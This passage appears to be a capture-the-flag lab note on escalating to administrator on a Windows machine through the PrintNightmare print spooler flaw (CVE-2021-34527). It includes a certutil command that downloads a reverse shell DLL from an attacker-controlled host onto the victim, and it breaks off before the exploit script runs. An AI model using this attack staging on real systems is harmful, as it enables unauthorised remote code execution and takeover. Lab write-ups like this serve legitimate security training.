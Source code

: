# Privilege Escalation to Administrator
## Discovered spooler service is running
Discovered spooler service is running via command `Get-Service -Name "spooler"`
![[Pasted image 20211007185804.png]]
## If spooler service is running with RPC port 135, SMB on port 445 with signing disalbed[[Driver/10 - Common Enumeration]], [it is most likely vulnerable to PrintNightmare - Windows Print Spooler RCE/LPE Vulnerability (CVE-2021-34527, CVE-2021-1675)](https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527)
If spooler service is running with RPC port 135, SMB on port 445 with signing disalbed[[Driver/10 - Common Enumeration]], [it is most likely vulnerable to PrintNightmare - Windows Print Spooler RCE/LPE Vulnerability (CVE-2021-34527, CVE-2021-1675)](https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527).
## Using [PrintNightmare](https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527)) to get escalate privileges to administrator
### First we will upload reverse shell DLL to victim machine
First we will upload reverse shell DLL to victim machine using command `certutil -urlcache -split -f "http://10.10.14.98:8000/rs.dll" dn.dll`.
![[Pasted image 20211007190628.png]]
## Running python script 
